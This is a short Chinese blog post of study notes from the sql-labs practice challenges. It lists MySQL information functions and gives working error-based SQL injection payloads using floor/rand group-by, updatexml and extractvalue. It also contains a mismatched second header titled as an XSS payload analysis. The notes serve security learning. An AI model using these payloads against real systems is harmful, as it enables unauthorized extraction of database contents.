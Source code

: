 ```yaml
---
title: "Sql Labs Record"
date: 2020-01-06T16:59:36+08:00
draft: true
tags: [SQL注入]
categories: []
comment: true
---
```

Sql Labs Record


# Sql-labs记录
---
title: "A XssPayload Analysis"
date: 2019-07-05T14:51:16+08:00
lastmod: 2019-07-05T14:51:16+08:00
draft: false
tags: [代码学习]
categories: []
comment: true
---
记录了一些sql-labs的闯关历史

- 随记
version()——MySQL 版本
user()——数据库用户名
database()——数据库名
@@datadir——数据库路径
@@version_compile_os——操作系统版本
information_schema 自带数据库
information_schema.schemata 数据库
information_schema.tables 数据表
information_schema.columns 数据列
floor函数返回小于等于该值的最大整数
RAND()函数调用可以在0和1之间产生一个随机数

- 报错注入：

```
rand()
```
![](https://pic.superbed.cn/item/5dcbf1df8e0e2e3ee9eb629e.jpg)
```
floor()
```
![](https://pic.superbed.cn/item/5dcbf31c8e0e2e3ee9eb8939.jpg)

```
and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)

and (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))) -- +
```
```
1' and updatexml(1,user(),1) --+
只有在payload返回的不是xml格式才会生效,其最长输出32位
```
```
extractvalue(1,concat('~',user(),'~'))
其最长输出32位
```
